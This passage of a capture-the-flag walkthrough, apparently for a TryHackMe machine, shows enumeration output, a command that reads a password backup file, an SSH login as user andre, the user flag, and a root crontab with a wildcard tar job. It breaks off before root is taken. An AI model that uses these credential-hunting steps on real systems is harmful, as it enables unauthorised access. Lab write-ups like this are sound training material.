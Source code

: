 - Found a suspicious backup file

```console
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 161 Nov 15 19:02 /tmp/andre_backup.tar.gz
-rw-r--r-- 1 root root 7867 May  6  2015 /usr/share/doc/telnet/README.telnet.old.gz
-rw-r--r-- 1 root root 298768 Dec 29  2015 /usr/share/doc/manpages/Changes.old.gz
<------------snip------------>
-rw-r--r-- 1 root root 190591 Jan 16  2019 /usr/src/linux-headers-4.4.0-142-generic/.config.old
-rw-r--r-- 1 root root 0 Jan 16  2019 /usr/src/linux-headers-4.4.0-142-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 0 Jan 16  2019 /usr/src/linux-headers-4.4.0-142-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 3020 Feb  6  2020 /etc/apt/sources.bak
-rw-r--r-- 1 root root 610 Feb  6  2020 /etc/xml/catalog.old
-rw-r--r-- 1 root root 673 Feb  6  2020 /etc/xml/xml-core.xml.old
-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak <-----suspicious
-rwxrwxrwx 1 root root 866 Jul 10  2019 /var/www/html/src/core/views/admin/db_backup.php
-rwxrwxrwx 1 root root 3773 Jul 10  2019 /var/www/html/src/core/classes/db_backup.php
-rw-r--r-- 1 root root 128 Feb  6  2020 /var/lib/sgml-base/supercatalog.old
-rw-r--r-- 1 root root 9038 Jan 16  2019 /lib/modules/4.4.0-142-generic/kernel/drivers/power/wm831x_backup.ko
-rw-r--r-- 1 root root 9070 Jan 16  2019 /lib/modules/4.4.0-142-generic/kernel/drivers/net/team/team_mode_activebackup.ko
```

- On accessing this file found password for mandre

```console
www-data@cmess:/tmp$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
```

- Secure shelled to machine with Mandre's password and found user flag.

```console
andre@cmess:~$ cat user.txt
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```

## Root flag
- We already know about cronjob from `linpeas` output.

```console
andre@cmess:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
